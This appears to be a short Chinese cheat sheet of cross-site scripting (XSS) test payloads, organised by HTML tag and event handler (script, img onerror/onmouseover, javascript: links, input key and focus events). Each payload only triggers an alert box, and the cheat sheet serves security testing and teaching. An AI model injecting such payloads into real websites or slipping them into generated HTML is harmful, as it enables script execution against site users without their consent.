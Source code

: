### **1.6.1** **\<scirpt>**

```html
示例：<scirpt>alert("xss");</script>
```

### **1.6.2** **\<img>**

图片加载错误时触发

```html
示例：<img src="x" onerror=alert(1)>
```

鼠标指针移动到元素时触发

```html
示例：<img src=1 onmouseover="alert(1)">
```

鼠标指针移出时触发

```html
示例：<img src=1 onmouseout="alert(1")>
```



### **1.6.3 \<a>**

```html
示例：<a href="http://www.qq.com">qq</a>
```

```html
示例：<a href=javascript:alert('1')>test</a>
```



### 1.6.4 \<input>

按下按键时触发

```html
示例：<input type="text" onkeydown="alert(1)">
```

按下按键时触发

```html
示例：<input type="text" onkeypress="alert(1)">
```

松开按键式时触发

```html
示例：<input type="text" onkeyup="alert(1)">
```

竞争焦点，从而触发onblur事件

```html
示例：<input onblur=alert("xss") autofocus><input autofocus>
```
